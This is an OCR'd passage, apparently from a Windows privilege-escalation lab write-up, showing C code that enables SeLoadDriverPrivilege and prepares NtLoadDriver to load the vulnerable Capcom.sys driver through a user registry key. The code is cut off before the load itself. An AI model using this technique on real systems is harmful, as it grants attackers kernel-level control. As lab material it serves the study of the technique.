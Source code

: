 Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    bool bEnablePrivilege(true);
    HANDLE hToken(NULL);
    OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

    if (!LookupPrivilegeValue(
        NULL,            // lookup privilege on local system
        L"SeLoadDriverPrivilege",   // privilege to lookup 
        &luid))        // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %un", GetLastError());
        return FALSE;
    }
    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;

    if (bEnablePrivilege) {
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    }

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %x", GetLastError());
        return FALSE;
    }

    //system("cmd");
    // below code for loading drivers is taken from https://github.com/killswitch-GUI/HotLoad-Driver/blob/master/NtLoadDriver/RDI/dll/NtLoadDriver.h
    std::cout << "[+] Set Registry Keys" << std::endl;
    NTSTATUS st1;
    UNICODE_STRING pPath;
    UNICODE_STRING pPathReg;
    PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
  PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
    const char NTDLL[] = { 0x6e, 0x74, 0x64, 0x6c, 0x6c, 0x2e, 0x64, 0x6c, 0x6c, 0x00 };
    HMODULE hObsolete = GetModuleHandleA(NTDLL);
    *(FARPROC *)&RtlInitUnicodeString = GetProcAddress(hObsolete, "RtlInitUnicodeString");
```